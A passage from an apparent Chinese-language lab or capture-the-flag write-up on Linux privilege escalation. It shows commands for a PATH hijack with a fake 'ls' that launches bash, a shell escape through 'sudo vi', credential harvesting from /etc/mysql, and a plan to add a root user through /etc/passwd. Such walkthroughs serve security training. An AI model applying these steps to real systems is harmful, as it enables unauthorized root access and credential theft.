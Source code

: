 ### 2.  user5环境变量提权
在user5的目录中有个script 也就是上面有的文件

我们用strings分析一下这个文件 看有什么信息吗  看不太懂 问了ai 感觉没啥头绪 看了大佬wp发现是环境变量的提权

```
cd /tmp
echo "/bin/bash" > ls
# 创建名为 `ls` 的文件，内容为 `/bin/bash`。​**​核心目的​**​是覆盖系统默认的 `ls` 命令，将其替换为启动 Bash Shell 的恶意脚本

chmod 777 ls
echo $PATH
export PATH=/tmp:$PATH
cd /home/user5
./script
whoami

```

![image.png](https://s2.loli.net/2025/04/30/lxvLWO72rS1wac3.png)


![image.png](https://s2.loli.net/2025/04/30/Z9UBLz87PFAsauo.png)


###  3. mysql数据
#注意 mysql的路径 /var/www/html里面没有找到的话 去/etc/里面找找看有mysql的文件夹吗

![image.png](https://s2.loli.net/2025/04/30/7RWDTqJ4ri981Sz.png)

用这个账户密码登录 能找到账户密码

![image.png](https://s2.loli.net/2025/04/30/VaFL7uv35kygWnM.png)

![image.png](https://s2.loli.net/2025/04/30/gjkR6mOsloScDre.png)

成功登录到mysql账户

在/etc/mysql中能找到所有用户的密码

![image.png](https://s2.loli.net/2025/04/30/M4cItTQED61xAfX.png)


### 4. user8 vi提权
切换到user8之后 sudo -l 发现有个vi

用sudo vi 在vi编辑器下输入:!sh即可提权

![image.png](https://s2.loli.net/2025/04/30/xDgZFvQcM2jeJLa.png)

### 5. user7添加/etc/passwd新用户
发现user7是属于root组的用户 能用这招来编辑etc/passwd来添加一个新的root权限的用户
